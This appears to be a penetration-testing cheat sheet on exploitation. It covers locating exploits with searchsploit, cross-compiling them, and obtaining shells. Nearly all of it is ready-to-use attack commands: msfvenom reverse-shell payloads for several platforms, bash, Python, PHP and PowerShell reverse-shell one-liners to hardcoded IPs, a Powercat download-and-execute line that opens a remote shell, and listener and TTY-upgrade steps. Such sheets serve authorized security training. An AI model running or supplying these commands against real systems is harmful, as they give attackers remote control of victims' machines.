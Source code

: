 # 💣 Exploitation

## Locating Public Exploits

```shell
# search for an exploit
searchsploit <name>

# show the exploit
searchsploit -x <id>

# copy the exploit to the current folder
searchsploit -m <id>

# NSE
locate .nse | grep <name>
nmap --script-help <name>
```

### Compiling Exploits

```shell
# for windows
sudo apt install mingw-w64
# 64-bit and 32-bit cpp files
x86_64-w64-mingw32-g++ myprogram.cpp -o myprogram.exe
i686-w64-mingw32-g++ myprogram.cpp -o myprogram.exe
# # 64-bit and 32-bit c files
x86_64-w64-mingw32-gcc myprogram.c -o myprogram.exe
i686-w64-mingw32-gcc myprogram.c -o myprogram.exe

# for linux
sudo apt install gcc g++ make
gcc myprogram.c -o myprogram
g++ myprogram.cpp -o myprogram
```

## Reverse Shells

!!! tip
    Beware of reflected ports!

> [revshells.com](https://revshells.com)

### MSFVenom

```shell
# stageless x64 shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o reverse.exe
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf -o reverse.elf
# meterpreter staged shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o reverse.exe
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf -o reverse.elf


msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```

### One liners

```shell
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1

python -c 'import 
socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'

<?php echo shell_exec('bash -i >& /dev/tcp/10.11.0.106/443 0>&1');?>

# powershell
$client = New-Object System.Net.Sockets.TCPClient("192.168.45.230",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

### Upgrade a Reverse Shell into a full TTY

Spawn a TTY Shell

```shell
# using Python
python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/sh")'

# if Python is not available
/bin/bash -i
script /dev/null -c bash
```

Background the shell and fix settings

```shell
# CTRL+Z
stty raw -echo; fg
```

Set terminal env variables

```shell
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 40 columns 100
```

### Add tools to Windows restricted shell

```shell
set PATH=%PATH%;C:\Windows\System32;C:\Windows\System32\WindowsPowerShell\v1.0\;
```

### Better listener with rlwrap

```shell
rlwrap nc -lnvp 4444
```

### Penelope

If the fully interactive shell can't be achieved and it's impossible to edit a file, [penelope](https://github.com/brightio/penelope) can help.

```shell
python penelope.py 80
```

### Powercat

> <https://github.com/besimorhino/powercat>

```shell
# load the function from .ps1 file:
.\powercat.ps1
# load the function from URL and connect back to listener:
IEX (New-Object System.Net.Webclient).DownloadString('http://<ip>:<port>/powercat.ps1');powercat -c <ip> -p <port> -e cmd
```

### Check Connectivity

```shell
# in kali
sudo tcpdump -i tun0 icmp

# from the target
ping -c1 <kali_ip>
```
